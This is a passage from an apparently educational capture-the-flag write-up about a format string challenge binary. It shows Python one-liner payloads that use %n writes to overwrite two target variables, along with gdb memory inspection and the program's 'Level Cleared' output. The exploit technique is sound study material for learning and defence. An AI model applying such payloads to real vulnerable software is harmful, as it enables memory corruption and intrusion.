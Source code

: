 ```
$	python -c 'print "\x48\xa0\x04\x08" + "%44257x%6$n0" + "\x4c\xa0\x04\x08" + "%10$n"' > payload
```

Now let's look at the momery after we've run the exploit.

```
Breakpoint 1, 0x08048510 in fun0 ()
gdb-peda$ x/4x 0xffffcf88
0xffffcf88:	0x48	0xa0	0x04	0x08
gdb-peda$ x/w 0xffffcf88
0xffffcf88:	0x0804a048
gdb-peda$ x/6w 0xffffcf88
0xffffcf88:	0x0804a048	0x32343425	0x25783735	0x306e2436
0xffffcf98:	0x0804a04c	0x24303125
gdb-peda$ x/w 0xffffcf98
0xffffcf98:	0x0804a04c
```

As you can see, the addresses are properly stored. Also if you count the amount of DWORDS in between the two addresses, you see that it aligns with our exploit. Now let's try it outside of gdb.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%44257x%6$n0" + "\x4c\xa0\x04\x08" + "%10$n"' | ./f3
```

One wall of blank space later (keep in mind that all of the characters we are writing with "%44257x" the program is trying to print).

```
                 640L�
The value of target0 is ace5
The value of target1 is acea
```

So we were able to write the correct value to target0 (0xace5). Now we need to write the hex string 0xfacade to target1. Already we are writing the hex string acea to it, so we can figure out the difference using python.

```
>>> 0xfacade - 0xacea
16391668
``` 

So according to that, we only need to write 16391668 more characters to target1 to get it equal to the proper value. Since there aren't any addresses after where we will put the "%16391668x", we shouldn't have to worry about formating.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%44257x%6$n0" + "\x4c\xa0\x04\x08" + "%16391668x%10$n"' | ./f3
```

One wall of text later...

```
  f7faf5a0
There's a line between taking advantage, and downright exploiting. You have crossed that line. Level Cleared
The value of target0 is ace5
The value of target1 is facade
```
